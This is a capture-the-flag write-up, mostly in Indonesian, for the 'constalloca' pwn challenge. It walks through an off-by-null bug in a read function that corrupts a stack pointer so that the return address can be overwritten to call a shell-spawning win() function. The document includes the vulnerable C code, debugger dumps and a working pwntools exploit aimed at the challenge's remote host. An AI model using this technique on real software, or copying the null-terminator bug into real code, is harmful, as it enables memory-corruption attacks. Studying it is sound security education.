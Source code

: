 # Speedrun_seccon —> constalloca

## Description:

Calling alloca with a constant argument is secure. Wait, what is alloca for?

allocaの引数に定数を渡せば安全ですね。いや、何のためのallocaだよ。

## Problem:

Program menambahkan `\0` atau `null` pada akhir inputan sehingga terjadi celah `off-by-null` dimana kita overwrite `1 byte null` ke dalam stack.

```python
void readn(char *ptr, int size) {
  /* Read data up to `size` bytes into `ptr` */
  for (int i = 0; i != size; i++, ptr++) {
    read(0, ptr, 1);
    if (*ptr == '\n') break;
  }
  *ptr = '\0'; // terminate by null
}

int main() {
  char title[0x18];
  char *content = alloca(0x80);

  /* Input title */
  printf("title: ");
  readn(title, 0x18);

  /* Input content */
  printf("data: ");
  readn(content, 0x80);

  return 0;
}
```

Tujuan akhirnya masih sama yaitu memanggil fungsi `win`

```python
void win() {
  /* Call me :pleading_face: */
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}
```

## Solution:

Pertama kita liat perbedaan stack layout saat inputan biasa dan inputan ketika `off-by-null`

```python
 /* Input Biasa */

0152| 0x7fffffffddb0 ('A' <repeats 23 times>)
0160| 0x7fffffffddb8 ('A' <repeats 15 times>)
0168| 0x7fffffffddc0 --> 0x41414141414141 ('AAAAAAA')
0176| 0x7fffffffddc8 --> 0x7fffffffdd20 --> 0x0  // Perbedaan ada disini
0184| 0x7fffffffddd0 --> 0x0 
0192| 0x7fffffffddd8 --> 0x7ffff7de30b3 (<__libc_start_main+243>:	mov    edi,eax)

/* Input Off-by-null */

0152| 0x7fffffffddb0 ('A' <repeats 24 times>)
0160| 0x7fffffffddb8 ('A' <repeats 16 times>)
0168| 0x7fffffffddc0 ("AAAAAAAA")
0176| 0x7fffffffddc8 --> 0x7fffffffdd00 --> 0x401350 (<__libc_csu_init>:	endbr64) // Perbedaan ada disini
0184| 0x7fffffffddd0 --> 0x0 
0192| 0x7fffffffddd8 --> 0x7ffff7de30b3 (<__libc_start_main+243>:	mov    edi,eax)
```

Bisa kita liat ada perbedaan dimana kita bisa overwrite `null byte` sehingga mengubah alamat  pointer setelahnya. 

Ternyata jika kita lihat alamat tersebut nanti akan digunakan untuk menampung variabel `content` yang akan diinputkan setelahnya.

```bash
0x00000000004012c7 <+156>:	call   0x401070 <printf@plt>
0x00000000004012cc <+161>:	lea    rax,[rbp-0x20]
0x00000000004012d0 <+165>:	mov    esi,0x18
0x00000000004012d5 <+170>:	mov    rdi,rax
0x00000000004012d8 <+173>:	call   0x4011d0 <readn>
0x00000000004012dd <+178>:	lea    rdi,[rip+0xd30]        # 0x402014
0x00000000004012e4 <+185>:	mov    eax,0x0
0x00000000004012e9 <+190>:	call   0x401070 <printf@plt>
0x00000000004012ee <+195>:	mov    rax,QWORD PTR [rbp-0x8] // rbp-0x8 itu berisi alamat yang ter-overwrite 1 byte
0x00000000004012f2 <+199>:	mov    esi,0x80
0x00000000004012f7 <+204>:	mov    rdi,rax
0x00000000004012fa <+207>:	call   0x4011d0 <readn>
0x00000000004012ff <+212>:	mov    eax,0x0
0x0000000000401304 <+217>:	leave  
0x0000000000401305 <+218>:	ret
```

Sehingga sekarang inputan variabel `content` akan tersimpan pada alamat `0x7fffffffdd00` bukan yang seharusnya yaitu `0x7fffffffdd20` sehingga kita bisa melakukan overwrite return address yang tersimpan pada alamat `0x7fffffffdd18` menjadi alamat fungsi `win`

```python
from pwn import *

LOCAL = False

if LOCAL : r = process("./chall")
else:  r = remote("133.242.227.104",9993)

elf = ELF("./chall",checksec=False)

win = p64(elf.symbols["win"])

r.sendafter(": ",b"A"*0x18)
r.sendlineafter(": ",win*4) // Disini karena males bikin inputan dummy bisa aja langsung kasih alamat win*4, atau bisa juga 'A'*24 + win
r.interactive()
```

- Note: Ngga tau kenapa payload yang aku pake kadang mau jalan (dapet shell) kadang ngga, mungkin ada yang salah

## Flag:

`RTACON{0ff-by-nu11_Tr4g1c_:doge:}`